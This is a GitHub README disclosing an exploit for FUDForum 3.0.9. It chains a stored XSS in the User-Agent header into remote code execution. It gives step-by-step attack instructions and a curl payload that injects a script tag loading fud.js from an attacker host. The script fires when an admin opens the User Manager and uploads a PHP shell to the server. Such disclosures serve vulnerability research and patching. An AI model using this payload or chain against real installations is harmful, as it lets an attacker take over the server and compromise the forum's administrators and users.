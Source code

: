 # FUDforum-XSS-RCE
FUDForum 3.0.9 - Stored XSS / Remote Code Execution

- Date                  : 10/26/19
- Exploit Author        : liquidsky (JMcPeters)
- Vulnerable Software   : FUDForum 3.0.9
- Vendor Homepage       : http://fudforum.org/forum/
- Version               : 3.0.9
- Software Link         : https://sourceforge.net/projects/fudforum/
- Tested On             : Windows / mysql / apache
- Author Site           : http://incidentsecurity.com | demo: https://youtu.be/0gsJQ82TXw4
- CVE                   : TBD

Greetz : wetw0rk, Fr13ndz, offsec

Description: FUDForum 3.0.9 is vulnerable to Stored XSS via the user-agent request header.
This may result in remote code execution. An attacker can use a user account to fully compromise the system using a GET request.
When the admin visits the user information under "User Manager" in the control panel the payload will execute.
This will allow for PHP files to be written to the web root, and for code to execute on the remote server. 

Notes: 

1. Register an account and log in to the forum. If you have an IP already associated with a registered user this is not required.
   This step is so when you run the XSS payload from your attacker machine it gets logged under the user activity.

2. Send the XSS payload below (from an IP associated with an account) / host the script:

- curl -A '<script src="http://attacker.machine/fud.js"></script>' http://target.machine/fudforum/index.php

3. When the admin visits the user information from the admin controls / User Manager the payload will fire under "Recent sessions", uploading a php shell on the remote system.
